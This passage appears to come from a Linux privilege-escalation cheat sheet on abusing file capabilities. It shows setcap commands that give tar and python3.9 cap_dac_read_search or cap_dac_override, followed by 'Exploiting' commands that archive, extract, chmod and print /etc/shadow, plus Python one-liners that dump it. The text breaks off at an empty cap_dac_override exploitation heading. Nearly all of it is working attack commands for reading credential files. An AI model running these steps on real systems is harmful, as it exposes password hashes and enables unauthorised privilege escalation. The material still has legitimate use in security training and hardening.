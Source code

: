 
>Also can read /etc/shadow file just change the group to shadow instead of wheel
___

## cap_dac_read_search

#### Misconfiguring

**tar**

```bash
setcap cap_dac_read_search+ep /usr/bin/tar
```

**python**

```
setcap cap_dac_read_search+ep /usr/bin/python3.9
```


#### Exploiting

**tar**

```bash
tar -cvf shadow.tar /etc/shadow
```

```bash
tar -xvf shadow.tar
```

```bash
chmod 644 etc/shadow
```

```bash
head -1 etc/shadow
```

**python**

```bash
python -c "print(next(open('/etc/shadow')))"
```

```bash
python3 -c 'print(open("/etc/shadow").read())'
```

## cap_dac_override

#### Misconfiguring

```bash
setcap cap_dac_override+ep /usr/bin/python3.9
```

#### Exploiting
